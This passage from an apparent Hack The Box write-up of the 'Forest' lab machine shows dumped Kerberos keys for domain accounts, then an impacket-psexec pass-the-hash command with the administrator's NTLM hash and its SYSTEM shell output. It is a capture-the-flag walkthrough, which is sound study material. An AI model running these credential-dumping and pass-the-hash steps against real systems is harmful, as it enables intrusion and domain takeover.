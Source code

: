 ```
htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
forest_pwn:aes256-cts-hmac-sha1-96:46f467cf256ced377396ee6b8d9db484824a0d98a6737307770136729bdd695a
forest_pwn:aes128-cts-hmac-sha1-96:4ceb0e13c13331eaea1cae698c41fe85
forest_pwn:des-cbc-md5:20e9049201a83ba2
FOREST$:aes256-cts-hmac-sha1-96:1c5479cee5331ba25884a4d47b08a7229ea3978b03f79a3778e1291888909304
FOREST$:aes128-cts-hmac-sha1-96:ac6c0d0cf3928ebca5b30f22ba64b918
FOREST$:des-cbc-md5:c20db0ec1c7531e6
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up... 

```

Using Impacket-psexec, we can use the Admin's LMHASH:NTHASH that we have obtained.

```
$ impacket-psexec administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file bJUSIEbK.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service UmQK on 10.10.10.161.....
[*] Starting service UmQK.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32>
```

Go to Desktop Directory and get your root flag

I tried to crack the above NTLM hash using the hashcat but the rockyou.txt was not able to crack the hash. Here is how I did it tho.
